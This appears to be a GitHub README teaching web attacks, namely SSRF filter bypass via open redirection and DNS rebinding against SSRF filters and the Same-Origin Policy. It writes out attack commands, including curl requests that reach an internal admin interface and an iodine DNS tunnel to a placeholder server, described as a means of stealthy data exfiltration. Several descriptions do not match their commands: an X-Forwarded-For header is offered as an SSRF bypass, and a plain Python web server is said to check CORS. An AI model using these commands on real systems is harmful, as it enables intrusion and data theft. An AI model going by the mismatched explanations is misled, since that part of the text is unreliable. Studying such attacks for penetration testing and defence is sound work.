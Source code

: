 # Introduction to Web Attacks

This repository is dedicated to providing information and examples about various types of web attacks. Web attacks are a major concern in today's internet era, where attackers exploit vulnerabilities in web applications to gain unauthorized access, steal sensitive data, or disrupt services.

## Contents

1. [SSRF Basic Filter Bypasses](#ssrf-basic-filter-bypasses)
2. [DNS Rebinding: SSRF Filter Bypass](#dns-rebinding-ssrf-filter-bypass)
3. [DNSbinding: Same-Origin Policy Bypass](#dns-rebinding-same-origin-policy-bypass)
4. [DNS Rebinding: Tools & Prevention](#dns-rebinding-tools--prevention)
5. [More to come...]

# SSRF with Filter Bypass via Open Redirection

Server-Side Request Forgery (SSRF) remains a potent threat to web security. Understanding the essentials of basic filter bypass techniques forms the foundation of effective penetration testing.

## Example Command

```bash
curl -i http://vulnerable-server.local/request?url=http://internal-server.local/
```

![Redirect Example 1](https://i.postimg.cc/2y6jR0LB/redirectnb2.png)
![Redirect Example 2](https://i.postimg.cc/j5qtPMXk/redirect3.png)

## Exploiting the Vulnerability

- Notice that changing the `stockApi` parameter directly is blocked.

- **Crafting the Exploit URL:**
  - Create a crafted URL to exploit the redirection, such as redirecting to the admin interface:
    ```plaintext
    /product/nextProduct?path=http://192.168.0.12:8080/admin
    ```

- **Using the Exploit URL:**
  - Utilize this URL in the `stockApi` parameter:
    ```bash
    curl -i "http://vulnerable-server.local/product/nextProduct?path=http://192.168.0.12:8080/admin"
    ```

- **Exploiting the Vulnerability:**
  - The stock checker follows the redirection and displays the admin page. Modify the path to perform actions like deleting a user.

These steps illustrate how an open redirection vulnerability can be exploited to bypass SSRF filters and execute unauthorized actions on internal systems.

## DNS Rebinding: SSRF Filter Bypass

DNS Rebinding enhances SSRF attacks by circumventing only DNS-result-checked filters at request time. This section details this tactic through practical commands.

### Commands:

```bash
dig +short attacker-controlled-domain.com
```

- ![DNS Rebinding SSRF Command Screenshot](assets/images/dns_rebinding_ssrf_command.png)
- *Description: This command uses `dig` to inquire an attacker-controlled domain that alternates IP addresses, thus manipulating DNS responses and bypassing SSRF filters.*

```bash
curl -H "X-Forwarded-For: internal-server.local" http://vulnerable-server.local/api
```

- ![SSRF Header Exploit Screenshot](assets/images/ssrf_header_exploit.png)
- *Description: Demonstrates the bypass of SSRF protection via HTTP headers, using `X-Forwarded-For` to masquer as an internal entity.*

## DNS Rebinding: Same-Origin Policy Bypass

The Same-Origin Policy is a vital browser security protocol. DNS Rebinding attacks can bypass this policy to exploit vulnerabilities.

### Test Command:

```bash
python -m SimpleHTTPServer
```

- ![SOP Bypass Command Screenshot](assets/images/sop_bypass_command.png)
- *Description: Establishes a local server to check cross-origin resource sharing (CORS) issues exploitable via DNS Rebinding.*

## DNS Rebinding: Tools & Prevention

Understanding both offensive and defensive tools is crucial in mitigating DNS Rebinding threats. The following tools and commands are recommended.

### Tool Example:

```bash
nslookup your-target-domain.com
```

- ![DNS Tool Command Screenshot](assets/images/dns_tool_command.png)
- *Description: This `nslookup` exploration helps pinpoint potential harmful DNS configurations susceptible to Rebinding attacks.*

```bash
nmap --script=dns-rebinding target-site.com
```

- ![DNS Rebinding Nmap Scan Screenshot](assets/images/dns_rebinding_nmap_scan.png)
- *Description: Utilizes Nmap’s DNS rebinding script to detect vulnerabilities on the target site.*

### Advanced DNS Tunneling Command:

```bash
iodine -f -P password -T CNAME tunnel.your-server.com
```

- ![Advanced DNS Tunneling Screenshot](assets/images/advanced_dns_tunneling.png)
- *Description: Sets up a DNS tunnel using `iodine`, allowing data encapsulation within DNS queries and responses for stealthy data exfiltration.*

## License

This project is under the MIT License. For more details, please refer to the [LICENSE.md](LICENSE.md) file.

This README is crafted to provide a comprehensive yet accessible guide. It serves as an invaluable resource for both novices and seasoned pentesters looking to deepen their understanding of sophisticated network security challenges.  
